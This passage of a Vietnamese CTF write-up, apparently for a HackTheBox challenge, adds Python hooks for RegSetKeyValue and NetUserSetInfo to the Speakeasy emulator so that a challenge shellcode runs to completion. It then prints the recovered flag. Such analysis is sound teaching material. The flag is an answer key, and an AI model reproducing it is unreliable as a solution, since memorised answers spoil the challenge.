    @apihook('RegSetKeyValue', argc=6, conv=_arch.CALL_CONV_STDCALL)
    def RegSetKeyValue(self, emu, argv, ctx={}):
        '''
        LSTATUS RegSetKeyValueA(
          HKEY    hKey,
          LPCSTR  lpSubKey,
          LPCSTR  lpValueName,
          DWORD   dwType,
          LPCVOID lpData,
          DWORD   cbData
        );
        '''
        hKey, lpSubKey, lpValueName, dwType, lpData, cbData = argv
        cw = self.get_char_width(ctx)
        if lpSubKey:
            lpSubKey = self.read_mem_string(lpSubKey, cw)
            argv[1] = lpSubKey
        if lpValueName:
            lpValueName = self.read_mem_string(lpValueName, cw)
            argv[2] = lpValueName
        type_name = regdefs.get_value_type(dwType)
        if type_name:
            argv[3] = type_name
        data = b''
        if lpData and cbData:
            data = self.mem_read(lpData, cbData)
        key = self.reg_get_key(hKey)
        if key:
            kp = key.get_path()
            self.log_registry_access(kp, REG_WRITE, value_name=lpValueName,
                                     size=cbData, buffer=lpData)
        return windefs.ERROR_SUCCESS
```



API hook này giả lập hàm RegSetKeyValueA/RegSetKeyValueW của advapi32.dll, đọc các tham số mà shellcode truyền vào như hKey, lpSubKey, lpValueName, dwType, lpData và cbData, sau đó trả về windefs.ERROR_SUCCESS để báo cho shellcode rằng thao tác ghi registry đã thành công.

Tiếp tục chạy lại thấy được.



Lần này shellcode đã chạy qua được RegSetKeyValueA, chứng tỏ hook bổ sung cho advapi32.dll hoạt động đúng. Tuy nhiên quá trình emulate vẫn dừng lại ở API NETAPI32.NetUserSetInfo.

Tiếp tục tìm tới file speakeasy/winenv/api/usermode/netapi32.py để bổ sung hook cho NetUserSetInfo.

Thêm apihook mới cho NetUserSetInfo trong netapi32.dll:

```python
@apihook('NetUserSetInfo', argc=5)
    def NetUserSetInfo(self, emu, argv, ctx={}):
        """
        NET_API_STATUS NET_API_FUNCTION NetUserSetInfo(
          LPCWSTR servername,
          LPCWSTR username,
          DWORD   level,
          LPBYTE  buf,
          LPDWORD parm_err
        );
        """
        servername, username, level, buf, parm_err = argv
        if servername:
            servername = self.read_wide_string(servername)
            argv[0] = servername
        if username:
            username = self.read_wide_string(username)
            argv[1] = username
        return netapi32defs.NERR_Success
```

Hook này giả lập API NetUserSetInfo, đọc các tham số servername, username, level, buf và parm_err mà shellcode truyền vào. Sau đó hook trả về netapi32defs.NERR_Success để báo cho shellcode rằng thao tác cập nhật thông tin user đã thành công.



Chạy lại thì thấy Speakeasy đã emulate shellcode đến cuối và lưu kết quả vào report.json.


Đọc file report.json thì thấy được flag ở phần unicode:



## 7. Flag

```text
HTB{cust0m_S3rum-XY_sh3llc0de_4g41nst_H4ckst3r_Un1v3rs1ty!}
```


---